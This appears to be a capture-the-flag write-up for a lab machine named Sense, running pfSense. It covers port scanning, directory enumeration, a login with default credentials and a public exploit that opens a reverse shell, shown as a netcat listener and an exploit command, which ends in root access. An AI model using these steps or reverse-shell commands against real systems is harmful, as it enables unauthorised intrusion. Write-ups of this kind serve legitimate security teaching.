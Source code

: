 # Sense
### OS: OpenBSD
### Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -p- -sV 10.129.130.131 -oN nmap.txt

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.130.131/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
```

![login](images/img1.png)

I'll run gobuster on the website.
```bash
gobuster dir -u https://10.129.130.131/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt -k -t 20

/themes               (Status: 301) [Size: 0] [--> https://10.129.130.131/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.129.130.131/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.129.130.131/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.129.130.131/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.129.130.131/classes/]
/widgets              (Status: 301) [Size: 0] [--> https://10.129.130.131/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.129.130.131/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.130.131/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.129.130.131/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.129.130.131/wizards/]
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.130.131/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.130.131/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]

```

Let's take a look at the changelog.txt.
![changelog](images/img2.png)

And now the system-users.txt file.
![system-user](images/img3.png)

We can try to use the default password for pfSense with the username we obtained.
```
rohit:pfsense
```

And it worked!

![dashboard](images/img4.png)

## Foothold:
I found a CVE and a [POC](https://www.exploit-db.com/exploits/43560) for this version.

We'll need to modify the script to ignore the SSL certificate.

Running the exploit:
```bash
rlwrap nc -lnvp 6666

python3 exp.py --rhost '10.129.130.131' --lhost '10.10.14.85' --lport 6666 --username 'rohit' --password 'pfsense'
```

And we are in.
```bash
whoami
root
```

We can get both flags now.